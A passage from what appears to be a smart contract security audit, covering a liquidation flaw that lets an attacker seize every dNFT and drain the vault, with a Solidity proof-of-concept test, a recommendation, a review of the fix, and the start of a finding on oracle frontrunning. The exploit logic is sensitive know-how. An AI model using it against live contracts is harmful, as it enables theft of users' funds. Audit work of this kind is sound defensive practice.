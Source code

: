By sorting all dNFTs from lowest balance to highest, an attacker could perform this attack in such a way as to liquidate every dNFT, assuming sufficient funds (which would be easy to secure via Flash Loans).

Because internal balances are held by the dNFT rather than the user, this would also have the effect of moving the entire value of the vault to the attacker.

### Proof of Concept
```solidity
function test_CanLiquidateAnyone() public {
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 6000 ether);
    address victim = makeAddr("victim");
    vm.deal(victim, 1000 ether);

    vm.prank(attacker);
    uint id1 = dNft.mint{value: 5 ether}(attacker);

    vm.prank(victim);
    uint id2 = dNft.mint{value: 5 ether}(victim);

    vm.startPrank(attacker);
    dNft.deposit{value: 5000 ether}(id1);
    dNft.liquidate{value: 1 ether}(id2, attacker);
    dNft.redeemDeposit(id1, attacker, 5000 ether);

    assertEq(dNft.ownerOf(id2), attacker);
}
```

### Recommendation
The logic of the liquidation process needs to be rethought. Besides this possible attack, it seems that liquidating users when their shares fall below 0.1% of the total is likely to lead to unexpected dynamics and doesn't accomplish the goal of keeping the protocol solvent.

### Review

The new liquidation mechanism (see fix for H-02) only liquidates if withdrawals exceed collateralization ratio, so this attack is no longer possible.

## [C-03] Using oracle provided price for deposits and redemptions allows user to steal funds

New deposits use the _eth2dyad() function to calculate the exchange rate, which simplifies down to: AMOUNT_OF_ETH * ORACLE_PRICE_OF_ETH / 1e8;

Similarly, all redeeming uses _dyad2eth(), which calculates the exchange rate as: AMOUNT_OF_DYAD * 1e8 / ORACLE_PRICE_OF_ETH;

The problem is that a user can know which direction the oracle price of ETH will move before it does, either through watching the ETH price move in advance of the oracle updating, or watching the mempool for oracle update transactions and frontrunning them.
